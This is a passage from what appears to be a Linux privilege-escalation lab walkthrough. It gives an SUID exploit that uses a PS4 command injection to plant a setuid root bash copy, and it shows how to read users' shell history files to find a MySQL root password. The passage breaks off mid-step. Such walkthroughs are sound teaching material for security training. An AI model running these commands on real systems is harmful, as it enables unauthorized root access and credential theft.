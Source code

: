 ```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges.

**Victim**

```
/tmp/rootbash -p
```

<figure><img src="../../.gitbook/assets/image (6) (8) (2).png" alt=""><figcaption></figcaption></figure>

## Passwords & Keys - History Files

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory.

**Victim**

```
cat ~/.*history | less
```

<figure><img src="../../.gitbook/assets/image (22) (5).png" alt=""><figcaption></figcaption></figure>

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!

Switch to the root user, using the password.

**Victim**
